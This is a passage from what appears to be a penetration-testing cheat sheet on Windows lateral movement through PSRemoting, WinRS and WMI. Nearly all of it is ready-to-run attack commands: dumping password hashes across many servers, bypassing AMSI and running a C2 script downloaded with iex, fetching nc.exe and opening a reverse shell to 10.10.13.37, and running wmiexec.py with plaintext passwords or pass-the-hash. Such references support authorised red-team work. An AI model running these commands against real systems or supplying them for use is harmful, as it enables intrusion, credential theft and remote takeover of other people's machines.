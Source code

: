 ```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList

#Bypass AMSI & Execute C2
Invoke-Command -ScriptBlock {powershell.exe -Sta -Nop -Window Hidden -Command "iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/AMSIBypass.ps1');iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/evil.ps1')"} -ComputerName dc.targetdomain.com
```

```powershell
winrs -r:pc.fqdn.local whoami;hostname
```

```powershell
$sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
Enter-PSSession -Session $sess
```

Identify PSRemoting access availble to current user
```powershell
Import-Module Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
### WMI 

Windows

```powershell
# Check Access
Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namespace" | Select Name

# Execute Commands
Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```

Linux

```bash
# Typical Usage
wmiexec.py 'domain'/'user':'Passw0rd!'@192.168.1.11
wmiexec.py -hashes :[... hash ...] 'domain'/'user'@192.168.1.11


# Reverse Shell
sudo python3 -m http.server 80
sudo rlwrap nc -lvnp 443
wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iEx (iWr "http://10.10.13.37/rev.ps1")'
```
